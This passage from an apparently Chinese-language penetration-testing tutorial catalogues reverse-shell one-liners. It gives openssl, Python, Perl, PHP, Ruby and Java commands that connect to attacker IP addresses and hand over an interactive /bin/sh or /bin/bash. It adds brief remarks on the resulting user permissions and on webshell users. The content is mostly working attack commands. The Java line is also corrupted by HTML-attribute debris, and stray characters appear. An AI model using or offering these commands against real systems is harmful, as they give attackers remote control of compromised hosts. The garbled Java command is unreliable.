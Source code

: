 

```
mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.10.136:4444 > /tmp/s;rm /tmp/s
```




### ![](https://img-blog.csdnimg.cn/20200830111450286.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### Python反弹shell



使用下面这条命令弹回来的shell也是不可交互的shell，即 vim 和 passwd 等命令用不了



```
#利用python反弹一个bash类型的shell      
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.25",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```




![](https://img-blog.csdnimg.cn/20181207140425638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



使用什么样的用户反弹的 shell，还是当前用户的权限。



![](https://img-blog.csdnimg.cn/20190727134538912.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



注：只有拥有 /bin/bash 的用户，才能使用该命令，如apache等web用户，无法使用该命令(以下是使用菜刀连接的webshell，获取到的 shell 是 apache 的shell)



![](https://img-blog.csdnimg.cn/20190727134653701.png)



### 其他命令反弹shell



```
Perl：      
perl -e 'use Socket;$i="192.168.10.13";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'       
PHP：      
php -r '$sock=fsockopen("192.168.10.13",8888);exec("/bin/sh -i <&3>&3 2>&3");'       
Ruby：      
ruby -rsocket -e'f=TCPSocket.open("192.168.10.13",8888).to_i;exec sprintf("/bin/sh -i <&%d>&%d 2>&%d",f,f,f)'       1
Java：      1
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.13/8888;cat <&5 2="" |="" while="" read="" line;="" do="" \$line="">&5 >&5; done"] as String[]) p.waitFor()
```
